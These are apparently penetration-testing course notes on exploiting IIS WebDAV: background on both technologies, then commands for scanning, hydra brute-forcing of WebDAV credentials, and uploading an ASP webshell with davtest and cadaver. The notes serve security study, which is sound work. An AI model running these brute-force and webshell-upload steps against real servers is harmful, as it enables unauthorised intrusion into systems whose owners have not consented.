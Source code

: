 s# 16 Exploiting Windows Vulnerabilities

# Microsoft IIS WebDAV

- IIS (Internet Information Services) is a proprietary extensible web server software developed by Microsoft for use with the Windows NT family.
- It can be used to host websites/web apps and provides administrators with a robust GUI for managing websites.
- IIS can be used to host both static and dynamic web pages developed in ASP.NET and PHP.
- Typically configured to run on ports 80/443.
- Supported executable file extensions:
	- .asp
	+ .aspx
	+ .config
	+ .php

## WebDAV

- WebDAV (Web-based Distributed Authoring and Versioning) is a set of extensions to the HTTP protocol which allow users to collaboratively edit and manage files on remote web servers.
- WebDAV essentially enables a web server to function as a file server for collaborative authoring.
- WebDAV runs on top Microsoft IIS on ports 80/443.
- In order to connect to a WebDAV server, you will need to provide legitimate credentials. This is because WebDAV implements authentication in the form of a username and password.
## Exploitation

- The first step of the exploitation process will involve identifying whether WebDAV has been configured to run on the IIS web server.
- We can perform a brute-force attack on the WebDAV server in order to identify legitimate credentials that we can use for authentication.
- After obtaining legitimate credentials, we can authenticate with the WebDAV server and upload a malicious .asp payload that can be used to execute arbitrary commands or obtain a reverse shell on the target.

## Tools

- **davtest** - Used to scan, authenticate and exploit a WebDAV server.
- **cadaver** - cadaver supports file upload, download, on-screen display, in-place editing, namespace operations (move/copy), collection creation and deletion, property manipulation, and resource locking on WebDAV servers.

## Example

```bash
nmap -sV -sC <IP>
nmap -sV -p 80 --script=http-enum <IP>
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt <IP> http-get /webdav/
davtest -url http://<IP>/webdav
davtest -auth user:password -url http://<IP>/webdav
cadaver http://<IP>/webdav
cadaver put /usr/share/webshells/asp/webshell.asp
```

